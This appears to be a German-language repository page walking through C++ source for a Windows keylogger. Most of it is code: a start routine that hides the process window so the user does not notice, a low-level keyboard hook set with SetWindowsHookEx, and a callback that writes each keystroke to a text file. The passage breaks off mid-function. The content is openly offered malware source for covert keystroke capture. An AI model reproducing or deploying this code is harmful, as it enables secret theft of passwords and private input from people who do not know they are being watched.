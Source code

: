 Durch **invisibleCMD()** wird das Fenster des Prozesses nicht angezeigt, und der User bekommt nichts mit.

```cpp
void startKeyLogger()
{
	// open output file
	const char* output_filename = "keylogger.txt";
	std::cout << "Logging output to " << output_filename << std::endl;
	output_file.open(output_filename, std::ios_base::app);

	// visibility of window
	invisibleCMD();

	// set the hook
	SetHook();

	// loop to keep the console application running.
	MSG msg;
	while (GetMessage(&msg, NULL, 0, 0))
	{
	}
}
```

Die **SetHook()** Methode setzt den Hook mittel WINAPI, SetWindowsHookEx. Im Parameter wird angegeben, welche Schnittstelle gehooked werden soll.

```cpp
void SetHook()
{
    // Set the hook and set it to use the callback function above
    // WH_KEYBOARD_LL means it will set a low level keyboard hook.
    // The last 2 parameters are NULL, 0 because the callback function is in the same thread and window as the
    // function that sets and releases the hook.
    if (!(_hook = SetWindowsHookEx(WH_KEYBOARD_LL, HookCallback, NULL, 0)))
    {
        cout << "failed";

    }
}
```

Die **HookCallBack()** Methode wird bei jedem entdeckten Keystroke ausgeführt, und speichert den jeweiligen Keystroke mittels **Save()** (vorübergehend) in eine TXT File.

```cpp
// This is the callback function. EVENT WHEN KEY IS PRESSED
LRESULT __stdcall HookCallback(int nCode, WPARAM wParam, LPARAM lParam)
{
	if (nCode >= 0)
	{
		// the action is valid: HC_ACTION.
		if (wParam == WM_KEYDOWN)
		{
			// lParam is the pointer to the struct containing the data needed, so cast and assign it to kdbStruct.
			kbdStruct = *((KBDLLHOOKSTRUCT*)lParam);

			// save to file
			Save(kbdStruct.vkCode);
		}
	}
// call the next hook in the hook chain. This is nessecary or your hook chain will break and the hook stops
	return CallNextHookEx(_hook, nCode, wParam, lParam);
```